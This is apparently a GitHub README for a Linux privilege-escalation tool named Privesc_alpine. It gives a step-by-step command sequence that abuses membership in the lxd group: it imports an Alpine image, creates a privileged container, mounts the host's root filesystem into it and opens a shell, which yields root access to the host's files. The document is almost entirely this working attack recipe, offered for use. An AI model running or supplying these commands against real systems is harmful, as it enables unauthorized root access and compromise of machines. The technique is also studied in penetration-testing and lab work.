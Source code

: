 # Privesc_alpine
This alpine for linux privesc. Its works when the user is part of lxd group.

# Usage:
```
unzip alpine.zip
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
lxc init alpine r00t -c security.privileged=true
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
lxc start r00t
lxc exec r00t /bin/sh
```
![image](https://github.com/H3EXX/Privesc_alpine/assets/111686217/6d54849c-d9da-4897-a768-41e2507f73eb)

![image](https://github.com/H3EXX/Privesc_alpine/assets/111686217/17de3d80-c70d-43b5-be91-8217260d61d7)


